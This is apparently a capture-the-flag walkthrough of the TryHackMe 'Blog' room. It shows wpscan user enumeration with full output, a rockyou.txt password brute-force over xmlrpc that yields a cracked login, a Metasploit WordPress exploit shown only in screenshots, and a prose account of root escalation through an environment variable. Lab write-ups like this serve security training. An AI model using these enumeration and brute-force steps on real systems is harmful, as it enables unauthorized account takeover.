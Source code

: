 # Blog - Try Hack Me

Reference: [Blog](https://tryhackme.com/room/blog)

Level: Medium

---

Recognition:

![](./images/nmap.png)

We've seem that there's a Wordpress instance running on this VM. Let's WPscan it to get more info especialy on the users.

```bash
┌──(kali㉿2a02-8440-6441-a02f-0a00-27ff-fe62-0f00)-[~/Desktop]
└─$ wpscan --url http://10.10.58.84/ --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.58.84/ [10.10.58.84]
[+] Started: Sun Jan 14 14:47:41 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://10.10.58.84/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.58.84/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.58.84/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.10.58.84/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.58.84/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.0 identified (Insecure, released on 2018-12-06).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.58.84/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.0'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.58.84/, Match: 'WordPress 5.0'

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:03 <========================================> (10 / 10) 100.00% Time: 00:00:03

[i] User(s) Identified:

[+] bjoel
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://10.10.58.84/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] kwheel
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://10.10.58.84/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Jan 14 14:47:53 2024
[+] Requests Done: 59
[+] Cached Requests: 5
[+] Data Sent: 12.478 KB
[+] Data Received: 271.453 KB
[+] Memory used: 152.855 MB
[+] Elapsed time: 00:00:12

```

We've obtain obtain 2 logins:

```
bjoel
kwheel
```

With WPscan we are searching for a password:

```bash
┌──(kali㉿2a02-8440-6441-a02f-0a00-27ff-fe62-0f00)-[~/Desktop]
└─$ wpscan -U user.txt -P /usr/share/wordlists/rockyou.txt --url http://10.10.58.84/
[+] Performing password attack on Xmlrpc against 2 user/s
...
[SUCCESS] - kwheel / cutiepie1
...
```

The following step took me a long time to find. Now we have the login/password with metasploit we can login into the server using a Wordpress exploit:

![](./images/wpscan_login.png)
![](./images/msf_1.png)
![](./images/exploit.png)

Then I spent hours figuring out how to escalate this VM. As you can see bellow there's a false flag. In the list of executables with sudo permissions there's the one in the folder named `sbin` this executables is not common that should had ring a bell sooner to me.

![](./images/rabbit.png)

When we try to execute it, it says that we're not admin. Let's us ltrace to show the dependencies of this file, it requires a env variable named admin.

![](./images/sbin.png)

To root the VM we had a env variable named admin with the value true. Then when we run the executable we are elevating to root priv.

The root flag is pretty easy to find.

![](./images/root.png)

The user flag is inside the `/media/usb`:

![](./images/user.png)
